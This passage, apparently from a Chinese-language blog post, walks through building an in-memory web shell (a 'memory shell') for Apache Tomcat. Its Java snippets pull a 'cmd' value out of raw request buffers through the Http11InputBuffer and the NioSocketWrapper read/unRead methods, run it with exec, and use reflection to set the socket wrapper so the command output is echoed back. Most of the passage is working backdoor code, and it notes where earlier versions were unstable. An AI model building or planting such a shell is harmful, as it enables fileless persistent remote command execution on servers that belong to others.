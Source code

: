 ```plain
ByteBuffer heapByteBuffer = ((Http11InputBuffer) getField(processor, "inputBuffer")).getByteBuffer();
        try {
            String a = new String(heapByteBuffer.array(), "UTF-8");
            System.out.println(a);
            if (a.indexOf("cmd") != -1) {
                System.out.println(a.indexOf("cmd"));
                String cmd = a.substring(a.indexOf("cmd") + "cmd".length() + 1, a.indexOf("\r", a.indexOf("cmd")) - 1);
                exec(processor.getRequest(), cmd);
            }
        } catch (Exception e) {
            throw new RuntimeException(e);
        }
```

但有个弊端，获取到的 request 其实是前一次（或者前几次，跟线程数有关）的缓存数据，所以可能第二三四次请求，获取的命令还是第一次请求的命令，太不稳定了。

于是想到了开启一个线程，这个线程不断从尝试从 request 中获取命令，并执行命令。但依然不够稳定，因为能获取到 request 数据，只有从解析请求到请求完成的中间。

bluE0 大佬发现 Poller 组件的 NioSocketWrapper 的 read 方法可成功获取当次的 request 请求，数据从流中读取出来，为了不影响后续的处理，还需要将数据放入流中，正好该类有个 unRead 方法可以将读取出来的数据又放回去。

而我们内存马重写的 process 方法的参数，正好就有这个 NioSocketWrapper

所以就有了以下代码

```plain
byte[] bytes = new byte[8192];
        ByteBuffer buf = ByteBuffer.wrap(bytes);
        try {
            wrapper.read(false, buf);
            buf.position(0);
            wrapper.unRead(buf);
           String a = new String(buf.array(), "UTF-8");
           if (a.indexOf("cmd") != -1) {
           //取出请求命令，执行命令
           }

        } catch (Exception e) {
            e.printStackTrace();
            buf.position(0);
            wrapper.unRead(buf);
        }
```

### 数据回显

最开始想的是从 processor 中获取 request，request 获取 response，response 写入回显

但实际 response 写数据实际是调用 wrapper 写数据，在执行 AbstractEndpoint.Handler#process 方法的时候，processor 中 wrapper 为 null，需要给其赋值

```plain
Method setMethod = processor.getClass().getDeclaredMethod("setSocketWrapper", SocketWrapperBase.class);
                // 设置方法可访问
                setMethod.setAccessible(true);
                // 调用私有方法
                setMethod.invoke(processor, wrapper); // 传入参数
```
